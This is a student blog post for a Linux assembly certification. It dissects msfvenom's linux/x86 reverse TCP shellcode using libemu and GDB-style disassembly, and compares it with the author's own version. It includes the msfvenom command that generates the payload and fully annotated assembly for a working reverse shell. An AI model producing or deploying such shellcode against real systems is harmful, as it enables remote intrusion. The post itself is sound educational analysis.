

# Assignment 5

This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Shellcode 1: linux/x86/shell_reverse_tcp

Since I had created a reverse tcp shellcode for assignment 2 of the SLAE
I decided that it would be interesting to look at msfvenom's version and
to see how it differed from mine. To do so I did the following:

Generate a linux/x86/shell_reverse_tcp binary using:


msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.1.1.1 R > revshell.bin


It defaults to LPORT=4444 so there is no need to set it.

Next, I ran the binary using Libemu and generated a .dot file:


/usr/bin/sctest -vvv -S -s 10000 -G revshell.dot < revshell.bin


I then converted the dot file to a png using:


dot -Tpng revshell.dot > revshell.png


Which gives us:

Cool. Looking at the purple boxes we see that the system calls that are
being used are:

- socket
- dup2
- connect
- execve

Those were the same socket calls that were used in the reverse shell
for assignment 2. Lets analyze things at the assembly level:

#### MSFVenom Socket:

; Socket
;; Clear out ebx
xor ebx,ebx
;; Clear out eax as eax is the implied destination
;; When anything is multiplied by 0 it will be zero
;; I'm not sure why this is done as the byte count ends up
;; being the same. Example:

;; xor ebx, ebx
;; mul ebx
;; = "\x31\xDB\xF7\xE3"

;; Versus:
;; xor eax, eax
;; xor ebx, ebx
;; = "\x31\xC0\x31\xDB"

mul ebx

;; Protocol INADDR_ANY Accept on any interface 0x00000000
;; Push this value onto the stack
push ebx
;; Increment ebx. This is used pushed to the stack for
;; SOCK_STREAM socket type of 1 as well as left in
;; the register as 1 is the sys_socket syscall number
inc ebx
push ebx

push byte 0x2 ;; Domain af_inet sets protocol family to ip protocol 2
mov ecx,esp ;; Pointer to sys_socket args
mov al,0x66 ;; socketcall syscall
int 0x80 ;; Call socket syscall

; Save returned file descriptor
xchg eax,ebx

; Load 0x2 into ecx for the dup2 loop
pop ecx

; Dup2 loop
mov al,0x3f ; Place dup2 syscall in al
int 0x80 ; Duplicate fd
dec ecx ; Decrement to the next file descriptor number
jns 0xfffffffb ; Loop

; Connect
; Build sockaddr_in structure
push dword 0x101017f ; inet_addr("127.1.1.1") = 0x0101017f
;; Push port 4444 in big endian network byte order
;; and sin_family of AF_INET which is 2 in 1 operation
push dword 0x5c110002
;; Mov pointer to sockaddr_in structure
mov ecx,esp

mov al, 0x66 ;; socketcall syscall
push eax ; addrlen
push ecx ; sockaddr_in struct pointer
push ebx ; socket file descriptor
mov bl,0x3 ; sys_call 3 which is connect()
mov ecx,esp ; pointer to connect args
int 0x80

; Execve
push edx ; 0x00000000
push dword 0x68732f6e ;"hs/n"
push dword 0x69622f2f ;"ib//"
mov ebx,esp ; place filename string in ebx
push edx ; 0x00000000
push ebx ; push pointer to program string
mov ecx,esp ; place pointer program args in ecx
mov al,0xb ; execve syscall
int 0x80


All in all this MSFvenom shellcode looks very similar to the one I had created
in assignment 2. There are some slight differences like using `mul` to clear
out `eax` as opposed to just using `xor`. One cool trick the MSFvenom version
was doing was using a push dword with the port and sin_family in 1 operation.
`push dword 0x5c110002` instead of what I had in my version:

        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)
